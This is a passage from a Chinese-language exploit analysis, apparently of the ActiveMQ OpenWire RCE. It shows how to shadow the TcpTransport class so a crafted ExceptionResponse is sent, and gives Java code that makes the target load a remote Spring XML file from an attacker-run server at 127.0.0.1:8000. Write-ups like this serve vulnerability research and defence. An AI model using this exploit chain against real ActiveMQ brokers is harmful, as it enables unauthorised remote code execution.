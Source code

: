 它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command

command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法, 将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

这里我没有分析 OpenWire 协议, 而是用了一个比较取巧的办法

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类, 然后重写对应的逻辑, 这样在运行的时候, 因为 classpath 查找顺序的问题, 程序就会优先使用当前源码目录里的 TcpTransport 类

然后是 createThrowable 方法的利用, 这块其实跟 PostgreSQL JDBC 的利用类似, 因为 ActiveMQ 自带 spring 相关依赖, 那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE

```plain
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名, 而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类

[![](assets/1701606889-17925dc160c06fdb87bc8b39c1725830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172550-a6fa4b00-73e1-1.png)
